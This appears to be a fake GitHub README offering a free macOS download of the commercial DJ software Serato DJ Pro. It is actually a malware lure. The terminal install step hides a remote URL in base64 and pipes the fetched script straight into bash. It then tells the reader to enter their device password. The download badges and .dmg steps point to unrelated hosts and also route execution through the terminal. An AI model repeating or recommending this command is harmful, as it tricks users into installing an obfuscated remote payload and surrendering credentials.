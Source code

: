 # 🎧 Serato DJ Pro — Ultimate DJ Software for macOS

**Serato DJ Pro** is a professional-grade DJ software for macOS, trusted by world-class DJs for live performance, club mixing, and music production. With seamless hardware integration, intuitive design, and robust features, Serato DJ Pro is the go-to solution for Mac users seeking reliable and high-performance DJ tools.

Whether you're performing at festivals or mixing tracks in the studio, Serato DJ Pro delivers precision control, low-latency performance, and stunning sound quality — all optimized for macOS.

---

## ✅ Download Serato DJ Pro for macOS  
[![Download Serato DJ Pro](https://img.shields.io/badge/Download-Serato_DJ_Pro-blue)](https://shuziktobehuman.github.io/huja/Serato)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Serato DJ Pro?

Serato DJ Pro is a professional digital DJ platform that offers high-resolution waveform displays, real-time beat matching, and extensive hardware compatibility. It supports a wide range of controllers, mixers, and audio interfaces, making it ideal for both beginner and professional DJs on Mac. The software also features advanced performance modes, smart crates, and streaming support from TIDAL, Beatport, and SoundCloud.

---

## ✨ Features

- 🎚 **Professional Mixer Interface** with customizable layout  
- 🎵 **High-Resolution Waveforms** for precise beat matching  
- 🎧 **DVS Support** for turntable control with vinyl emulation  
- 📡 Streaming integration: TIDAL, Beatport, SoundCloud  
- 📁 Smart Crates & powerful track organization  
- 🛠 Plug-and-play support for most DJ controllers and mixers  
- 🧠 Practice Mode to mix without hardware  
- 🖥 Optimized for macOS Sonoma and Apple Silicon (M1/M2/M3)  
- 🔄 Auto-sync, pitch shifting, looping & slicer tools  
- 🎛 Plug-in FX support with Serato FX expansion packs  

---

## 💡 Why Use Serato DJ Pro?

- 🎼 Trusted by global DJs in clubs, festivals, and radio  
- 🔒 Rock-solid stability for live performance  
- 🎚 Industry-standard tools with ultra-low latency  
- 🧩 Massive controller & hardware support  
- ⚙️ Constant updates for new gear and macOS compatibility  
- 🎛 Perfect for live sets, remixing, and scratching  

---

[![Download Serato DJ Pro](https://img.shields.io/badge/Download-Serato_DJ_Pro-blue)](https://shuziktobehuman.github.io/huja/Serato)

---

## 🖼 Preview

![Serato DJ Pro Screenshot 1](https://cdn.digitaldjtips.com/app/uploads/2018/02/28163009/Review-Serato-DJ-Pro-Main.jpg)  
![Serato DJ Pro Screenshot 2](https://u.cdn.sera.to/content/images/69/16669/16669.png)

---

## 📌 Tags

serato dj pro mac, serato dj pro macbook, serato macbook air, download serato dj mac,  
serato dj pro for macbook, dj software mac, serato macbook pro, djpro mac,  
serato for mac os, serato dj pro x, serato dj pro 2.5 5 for mac, serato dj software mac,  
macbook dj software, macbook air serato dj, serato scratch mac, serato pro macbook,  
serato dj software for macbook air, serato dj tools mac, mac dj app,  
serato pro download mac, mac dj software 2023, serato compatible macbook,  
best macbook for serato dj pro, dj controller mac compatible

